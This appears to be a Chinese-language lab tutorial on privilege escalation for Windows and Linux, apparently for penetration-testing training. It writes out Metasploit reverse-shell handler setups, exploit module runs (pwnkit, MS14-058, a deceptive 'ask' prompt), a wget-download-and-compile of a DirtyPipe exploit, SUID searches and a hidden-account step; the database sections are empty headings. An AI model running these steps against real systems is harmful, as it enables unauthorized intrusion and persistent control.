

# 提权

## 一 提权的基本概念

提权是黑客的专业名词，一般用于网站入侵和系统入侵中。顾名思义就是提高自己在服务器中的权限.
比如在windows中你本身登录的用户是guest，然后通过提权后就变成超级管理员，拥有了管理Windows的所有权限。

```
windows：user >> system
linux：user >> root
```

提权的常见方式：

```
    1、系统漏洞提权（Linux、Windows） :系统漏洞提权一般就是利用系统自身缺陷，用来提升权限.
    2、数据库提权 :通过执行数据库语句、数据库函数等方式提升服务器用户的权限.
    3、系统配置错误提权:可以查找系统中以system权限启动的服务或应用，可以尝试将其替换或者反弹shell的方式提权;可以查找NTFS权限允许users修改删除的应用，利用配置不当进行提权；
    4、权限继承类提权:windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。  
    5、第三方软件/服务提权
    6、WebServer漏洞提权
```

提权的基本思路：

```
1 拿到低权限SHELL(如webshell/服务低权限账号)
2 搜集主机信息
3 寻找EXP
4 尝试提权到高级别权限账户
5 添加隐藏账户
```


## 二 windows提权

### 2.1 获取低权限shell

将64位msf-shell拷贝至Window-server中（因暂不涉及免杀，为此需提前关闭安全中心的杀软）

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
##执行shell后即可上线
```


### 2.2 Windows的信息搜集

2.2.1 搜集systeminfo

```
systeminfo >info.txt
```


2.2.2 使用Windows Exploit Suggester进行检测

WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS  between Windows XP and Windows 11, including their Windows Server  counterparts, is supported.

项目地址：https://github.com/bitsadmin/wesng/

```
python3 wes.py /root/info.txt
```


```
python3 wes.py /root/info.txt -i Elevation of Privilege
```


2.2.3 winPEAS

winPEAS可以自动在主机中搜集相关的信息后，查找提权的可能性。

项目地址：https://github.com/carlospolop/PEASS-ng/releases/tag/20230101

下载后的winPEAS存在多个版本类型。


直接在命令行中执行即可。

```
C:\share\2>winPEASx64.exe
```


2.2.4 使用msf进行检测

```
run post/multi/recon/local_exploit_suggester
```


### 2.3 使用EXP测试

2.3.1 使用exploit/windows/local/ask模块

```
use exploit/windows/local/ask
set filename 360.exe
set session 2
exploit
```


通过诱骗的方式进行提权。


2.3.2 使用msf的提权模块

```
use exploit/windows/local/ms14_058_track_popup_menu
set session 2
set target xx
exploit
```


2.3.3 getsystem

在meterpreter中使用getsystem指令可以尝试进行自动化提权(下图为失败的样子，但可看到对应的方式)。


此指令同样可用于获取到administrator后切换至system用户。


2.3.3  使用提权EXP

项目地址：https://github.com/SecWiki/windows-kernel-exploits.git

我们在下载的文件中，假如要使用ms17-017进行提权，其相关的提示教程如下：



下图为出错的场景：）


2.3.4 使用土豆提权

烂土豆提权原理：

        烂土豆(Rotten Potato) MS16-075 提权是一个本地提权，只针对本地用户，不支持域用户
    适用版本：Windows 7、8、10、2008、2012
        欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证到我们控制的TCP终端。
        对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。
        模仿这个令牌。只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。
        查看是否具有Selmpersonate权限 


## 三 linux提权

3.1 获取低权限shell

在Linux的主机中，创建低权限用户后，执行msfshell上线。

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
```


3.2 Linux的信息搜集

3.2.1 unix-privesc-check

```
upload /root/unix-privesc-check
shell
cd /tmp
chmod +x unix-privesc-check
./unix-privesc-check standard >>unix.txt
```


3.3.2 linpeas

```
upload /root/linpeas_linux_amd64 /tmp
shell
cd /tmp
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```


3.3.3 使用msf进行检测

```
run post/multi/recon/local_exploit_suggester
```


3.3 使用EXP测试

3.3.1 使用msf提权

```
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set session 5
exploit
```


3.3.2 使用通用EXP

```
wget https://haxx.in/files/dirtypipez.c
upload /root/dirtypipez.c /tmp
shell
cd /tmp
gcc dirtypipez.c -o aaa
chmod +x aaa
./aaa /root/tq.txt 1 $'\xxxxx\n'
```

大多数Linux的提权EXP均为c的文件，为此通用的套路为gcc xxx.c -o aaa后执行（可参阅下dirty-cow的机制）。

poc的查找可以通过searchsploit或https://github.com/SecWiki/linux-kernel-exploits


## 四 第三方组件提权

4.1 suid提权

SUID (Set  UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.

 在执行过程中，调用者会暂时获得该文件的所有者权限,且该权限只在程序执行的过程中有效.  利用此特性,我们可通过SUID进行提权


```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
##如果命令可以交互会更快乐
```


4.2 灵活就业

模拟场景A：硬盘存放着password.txt或者shell脚本

模拟场景B：主机上的某些软件如果存在权限控制不当(如update.exe)

模拟场景C：客户端的场景可以通过如邮件信息、QQ聊天记录、远程连接工具等方式获取到一些信息      


## 五 数据库提权

5.1 SQLserver提权


5.2 MySQL提权
